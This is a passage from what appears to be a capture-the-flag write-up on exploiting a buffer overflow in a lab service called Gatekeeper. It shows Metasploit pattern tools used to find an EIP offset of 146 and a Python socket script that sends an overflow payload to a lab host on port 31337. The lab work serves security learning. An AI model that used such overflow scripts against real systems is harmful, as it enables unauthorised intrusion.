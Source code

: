 - Now lets find our offset.

- ``msf-pattern_create -l 5000`` and send in netcat and note the EIP "39654138"

![0xskar](/assets/gatekeeper03.png)

- ``msf-pattern_offset -l 5000 -q 39654138`` and look for an exact match offset 

![0xskar](/assets/gatekeeper04.png)

- Since we have an exact offset at 146 lets edit our code to send payloads so we can look for badchars.

```python
import socket
import sys

offset = 146
payload = b"A" * offset + b"B" * 4

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',31337))
      s.send(payload + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```
